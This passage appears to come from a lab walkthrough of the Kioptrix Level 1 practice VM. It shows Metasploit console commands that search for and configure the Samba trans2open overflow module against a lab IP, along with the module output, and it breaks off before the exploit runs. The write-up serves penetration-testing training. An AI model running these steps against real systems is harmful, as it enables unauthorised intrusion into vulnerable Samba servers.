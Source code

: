 So now we know Kioptrix Level 1 is running Samba 2.2.1a which not only has an [Exploit DB entry](https://www.exploit-db.com/exploits/10) but a [metasploit module](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open) too! Definitely worth revisiting this service as well during the exploitation phase.

# [](#header-1)Exploitation

As was covered in the initial reconnaissance phase, there are two services that appear to be exploitable. Samba, and Apache. Given a metasploit module was available for the Samba version we're targeting, we'll try that one first.

# [](#header-2)Port 139/Samba

`$ msfconsole`

`$ msf5 > search trans2open`
```
Matching Modules
================

   #  Name                              Disclosure Date  Rank   Check  Description
   -  ----                              ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
   3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)
```

We know Kioptrix Level 1 is running Linux per our Nmap results so we'll go with option 1.

`$ msf5 > use exploit/linux/samba/trans2open`

`$ msf5 exploit(linux/samba/trans2open) > set RHOSTS 192.168.1.104`

`$ msf5 exploit(linux/samba/trans2open) > set LHOST 192.168.1.195`

`$ msf5 exploit(linux/samba/trans2open) > set RPORT 139`

`$ msf5 exploit(linux/samba/trans2open) > show options`

```
Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.104    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce
```
